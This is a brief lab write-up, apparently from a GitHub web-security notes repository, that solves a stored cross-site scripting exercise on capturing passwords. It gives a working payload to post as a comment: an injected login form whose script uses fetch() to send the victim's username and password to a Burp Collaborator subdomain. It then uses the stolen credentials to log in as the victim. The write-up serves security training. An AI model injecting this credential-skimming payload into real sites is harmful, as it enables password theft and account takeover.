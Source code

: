 # Lab: Exploiting cross-site scripting to capture passwords

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/78e74b92-06c9-4f1e-95c6-b6269c94f1a5)

## Solution

Go to burp collaborator, start it and click on **Copy to clipboard** to get a subdomain.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/d7bb04d0-34b5-475b-9643-b93882161a25)

Use the below payload and give it as comment in any post.
`<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">`

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/0ee88b1b-5c58-421b-bfac-da53fba059fd)

The victims username and password will be visible in the request body recived in burp collaborator.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/b70d91b8-ec39-406a-bcd7-4989bea7617a)

Use the above acquired username and password to login as victim.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/744be71d-0992-4994-bfae-40120dbdc3ef)
